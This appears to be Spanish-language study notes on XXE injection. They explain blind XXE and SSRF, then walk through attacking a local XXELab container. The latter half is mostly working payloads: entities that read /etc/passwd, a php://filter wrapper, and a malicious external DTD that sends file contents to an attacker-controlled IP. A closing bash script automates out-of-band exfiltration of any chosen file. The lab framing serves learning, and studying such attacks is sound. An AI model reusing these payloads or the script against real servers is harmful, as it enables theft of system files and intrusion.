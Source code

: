 
---- 
- Tags: #XML #INJECTION #XXE
----
Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “**ir a ciegas**” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un **Document Type Definition** (**DTD**) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo **SSRF** (**Server-Side Request Forgery**). Esta técnica de ataque puede permitir a un atacante escanear **puertos internos** en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener **información sensible** o incluso **tomar el control** de los servicios internos.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:

- **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)
---
- Primero clonamos el repositorio 
```
$ git clone https://github.com/jbarone/xxelab.git
$ cd xxelab
$ docker build -t xxelab .
```

- Y corremos nuestro docker en segundo plano para evitar errores
```
docker run -dit --rm -p 127.0.0.1:5000:80 xxelab
```
- Abrimos nuestro navegador por el puerto localhost:5000
- Tambien abrimos nuestro burpsuite para ver donde viaja las direcciones al crear nuevo usuario
- Configuramos en el apartado de repetear debajo de ?xml
```
<!DOCTYPE foo [<!ENTITY myName "sk8ware">]>
``` 
- Y debajo del apartado **email** colocar 
```
&myName;
```
- Si observamos que todo funciona correctamente podemos proceder con el XXE INJECTION con el siguiente comando debajo de ?xml
```
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc//passwd">]>
```
- De bajo de email
```
&miFile;
```
- Con esto obtendriamos la Injección XXE
- Podriamos obtener mas información con mas gruapers, este nos muestra la información en base64
```
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
```

```
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "http://192.168.72.130/testXXE">]>
```
- Con este gruaper nos permite ver información desde nuestro servidor http con python 
```
python3 -m http.server 80
```
- Con esto recibimos las pediciones del servidor con burpsuite

- En caso que no nos permita enviar solicitudes con la entidad en la estructura lo podemos enviar en la misma línea 
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.72.130/malicious.dtd">]> %xxe;]>
```

- Creamos un archivo .dtd en nuestro sistema 
```
nvim malicious.dtd
```

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#X25; exfil SYSTEM 'http:///?file=%file;'>">
%eval;
%exfil;
```
- Ahora escuchamos por nuestro servidor con python 

- Tambien nos podemos crear el siguiente **xxe_oob.sh** nvim para obtener datos por consola
```
#!/bin/bash 

echo -ne "\n[+] Introduce el archivo a leer: " && read -r myFilename 

malicious_dtd="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$myFilename\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://192.168.72.130/?file=%file;'>\">
%eval;
%exfil;"""

echo $malicious_dtd > malicious.dtd
 
python -m http.server 80 &>response &
 
PID=$!
 
sleep 1
 
curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.72.130:80/malicious.dtd"> %xxe;]>
<root><name>test</name><tel>123</tel><email>a@a.com</email><password>test123</password></root>'
 
cat response | grep -oP "/?file=\K[^.*\s]+" | base64 -d
 
kill -9 $PID
wait $PID 2>/dev/null
 
rm response 2>/dev/null
```
- Con este script ya podriamos pedirle que nos enliste ciertos directorios como :
	/etc/passwd
